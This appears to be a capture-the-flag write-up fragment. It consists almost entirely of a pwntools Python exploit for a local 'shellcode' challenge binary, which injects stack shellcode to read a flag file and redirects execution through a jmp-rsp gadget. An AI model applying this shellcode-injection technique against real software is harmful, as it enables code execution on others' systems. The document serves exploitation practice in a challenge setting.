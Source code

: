 ### shellcode

:star:exp:

```python
from pwn import *
context(os='linux',arch="amd64",log_level='debug')
elf = ELF("./shellcode")
shangu = 0
io = process("./shellcode")

shellcode = asm(shellcraft.cat('flag'))
shellcode2 = asm('''
sub rsp,0x30
call rsp
''')
print(shellcode)
shellcode=shellcode.ljust(0x28,b"\x00")

jmp_jsp = 0x400785
payload = shellcode + p64(jmp_jsp) + shellcode2
gdb.attach(io)
pause()
io.sendafter(b"Can u pwn me?",payload)
io.interactive()
```

